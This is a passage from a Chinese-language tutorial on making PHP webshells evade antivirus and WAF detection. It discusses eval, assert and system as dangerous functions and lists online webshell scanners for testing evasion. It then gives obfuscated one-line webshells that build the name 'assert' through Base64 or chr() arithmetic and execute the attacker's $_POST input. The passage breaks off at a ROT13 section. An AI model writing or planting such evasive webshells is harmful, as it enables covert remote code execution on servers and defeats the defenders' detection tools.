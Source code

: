 #### 0.3.1 `eval()` 高危函数

`eval()` 不能作为函数名动态执行代码，官方说明如下：eval 是一个语言构造器而不是一个函数，不能被可变函数调用

> 可变函数：通过一个变量获取其对应的变量值，然后通过给该值增加一个括号 ()，让系统认为该值是一个函数，从而当做函数来执行

人话：`eval()` 函数不能通过拼接、混淆来进行执行，只能通过明文直接写入

#### 0.3.2  ` assert()` 高危函数

在PHP7 中，` assert ()` 也不再是函数了，变成了一个语言结构（类似于 eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点，这个感兴趣可以自行了解即可

所以在WebShell免杀这块，我还是更喜欢用 ` system()` 高危函数，以下很多案例都是使用 ` system()` 来最终执行的

### 0.4 WebShell免杀测试

- 渊龙Sec团队导航（上面啥都有）： [https://dh.aabyss.cn/](https://dh.aabyss.cn/)
- 长亭牧云查杀： [https://stack.chaitin.com/security-challenge/webshell/index](https://stack.chaitin.com/security-challenge/webshell/index)
- 阿里云恶意文件检测平台：[https://ti.aliyun.com/#/webshell](https://ti.aliyun.com/#/webshell)
- 阿里伏魔引擎： [https://xz.aliyun.com/zues](https://xz.aliyun.com/zues) 
- VirusTotal： [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload) 
- 微步在线云沙箱： [https://s.threatbook.com/](https://s.threatbook.com/)
- 河马WebShell查杀： [https://n.shellpub.com/](https://n.shellpub.com/) 
- 百度WEBDIR+： [https://scanner.baidu.com/](https://scanner.baidu.com/) 
- D盾： [http://www.d99net.net/](http://www.d99net.net/) 
- 网站安全狗： [http://free.safedog.cn/website_safedog.html](http://free.safedog.cn/website_safedog.html) 

## 1# 编码绕过

这算是早期的免杀手法，可以通过编码来绕过WAF的检测，如下：

### 1.1 Base64编码

```php
<?php
$f = base64_decode("YX____Nz__ZX__J0");  //解密后为assert高危函数
$f($_POST[aabyss]);                      //assert($_POST[aabyss]);
?>
```

### 1.2 ASCII编码

```php
<?php
//ASCII编码解密后为assert高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
$f($_POST['aabyss']);                //assert($_POST['aabyss']);
?>
```

### 1.3 ROT13编码
